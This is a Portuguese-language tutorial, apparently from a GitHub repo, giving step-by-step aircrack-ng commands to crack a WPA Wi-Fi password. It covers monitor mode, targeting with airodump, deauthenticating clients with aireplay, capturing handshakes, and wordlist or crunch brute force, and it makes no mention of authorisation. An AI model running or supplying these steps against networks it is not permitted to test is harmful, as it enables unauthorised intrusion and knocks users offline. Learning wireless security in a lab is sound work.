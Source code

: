 
# Aircrack suite

![Aircrack-ng](https://www.aircrack-ng.org/~~V:/lib/exe/fetch.php?w=600&h=300&tok=6a4d47&media=http%3A%2F%2Fwww.aircrack-ng.org%2Fimg%2Faircrack-ng.explaination.gif)


Agora que já sabemos como funciona a teoria, para aplicar o WPA Attack utilizaremos o pacote de ferramentas [aircrack-ng](https://www.aircrack-ng.org/doku.php?id=Main), o qual pode ser instalado com:
```
sudo apt-get install -y aircrack-ng
```
**Observação:** Caso possua possua uma distro não debian-based, você pode instalar diretamente fonte seguindo essas [instruções](https://www.aircrack-ng.org/doku.phpid=installaircrack#compilingandinstalling).

## Escolhendo a interface de monitoramento
Antes de começar o ataque em si, precisamos descobrir qual interface de rede utilizaremos para monitorar os pacotes em circulação:

```
iwconfig
```



## Airmon
Depois, utilizando o `airmon-ng` podemos ergue-la em modo monitoramento:

```
airmon-ng check kill && sudo airmon-ng start <INTERFACE> 
```

*Vale ressaltar que assim que realizarmos esse passo, seu acesso à internet será cortado. Mas não se desespere! Se você seguir esse tutorial até o final, <a href="#restore_net"> reestabeleceremos sua conexão </a>.Além disso, o nome de sua interface será acrescido do sufixo 'mon'.*


## Airodump
Agora, podemos listar todos os wifis/pontos de acesso por meio dos pacotes que chegam até a interface:

```
sudo airodump-ng <INTERFACE>
```

Assim que o wifi que se deseja crackear aparecer na lista, podemos dar `Ctrl+C` para parar o airodump e salvar seu `BSSID` e `CHANNEL`. Em seguida, podemos inspecionar com mais precisão todos os pacotes que circulam por ele com:

```
sudo airodump-ng -w <OUTFILE> -c <CHANNEL> -bssid <BSSID> <INTERFACE>
```

## Aireplay
Simultaneamente em outro terminal,
podemos executar um deauthentication attack em alguns dos clientes da rede dado seu `STATION_NUMBER`:

```
sudo aireplay-ng --deauth <TIMES> -a <BSSID> -c <CLIENT_STATION_NUMEBR> <INTERFACE>
```

## Aircrack

Por fim, agora que temos os handshakes, podemos usar o `aircrack-ng` para conseguir a senha de acesso utilizando alguma `WORDLIST`:

```
aircrack-ng <HANDSHAKE_FILE> -w <WORDLIST> -l <OUTFILE>
```



## Crunch

Caso não queira usar um dicionário, podemos brutar todas as possibilidades de senhas
utilizando o `crunch`

Primeiramente, para instalá-lo:
```
sudo apt-get install crunch
```

Agora, utilizando o aircrack em pipeline:
```
crunch <MIN> <MAX> <CHARSET> | aircrack-ng -b <BSSID> -w - <HANDSHAKE_FILE> -l <OUTFILE>
```

## <a id="restore_net">Restaurando sua conexão</a>
Para que sua internet volte a funcionar, temos que erguer a interface em modo normal e parar o monitoramento de pacotes:

```
sudo airmon-ng start <NORMAL_INTERFACE>
```
```
sudo airmon-ng stop <MON_INTERFACE>
```
```
ifconfig <NORMAL_INTERFACE> up
```
```
sudo service network-manager restart
```

*`NORMAL_INTERFACE` diz respeito ao nome da interface sem o sufixo 'mon'*

**Observação:** Existe mais de uma possibilidade para network manager, então o último comando pode variar de acordo com a distro instalada* 